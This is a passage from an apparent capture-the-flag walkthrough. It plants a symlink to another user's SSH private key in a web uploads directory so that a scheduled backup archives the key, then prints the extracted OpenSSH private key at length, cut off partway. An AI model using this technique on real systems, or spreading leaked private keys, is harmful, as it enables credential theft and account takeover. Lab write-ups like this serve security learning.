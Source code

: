 ```console
cd /opt/backups/archives
ls -al
total 1784
drwxrwxr-x 2 luis luis   4096 Jul  4 17:32 .
drwxr-xr-x 4 luis luis   4096 Jul  4 17:32 ..
-rw-rw-r-- 1 luis luis 606047 Jul  4 17:30 backup-2022-07-04-17:30:32.gz
-rw-rw-r-- 1 luis luis 606047 Jul  4 17:31 backup-2022-07-04-17:31:32.gz
-rw-rw-r-- 1 luis luis 606047 Jul  4 17:32 backup-2022-07-04-17:32:32.gz
```
It seems like the `luis` user is running the playbook every minute. We can add a symlink to the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`{: .filepath} directory.

```console
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard
ln -s /home/luis/.ssh/id_rsa uploads/keys
cd /opt/backups/archives
ls -al  
total 1788
drwxrwxr-x 2 luis luis   4096 Jul  4 17:37 .
drwxr-xr-x 4 luis luis   4096 Jul  4 17:37 ..
-rw-rw-r-- 1 luis luis 606047 Jul  4 17:35 backup-2022-07-04-17:35:33.gz
-rw-rw-r-- 1 luis luis 606047 Jul  4 17:36 backup-2022-07-04-17:36:32.gz
-rw-rw-r-- 1 luis luis 608922 Jul  4 17:37 backup-2022-07-04-17:37:32.gz
cp backup-2022-07-04-17:37:32.gz /tmp
```

We can then unzip the archive and read the ssh key of the `luis` user:

```console
-----BEGIN OPENSSH PRIVATE KEY-----
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
```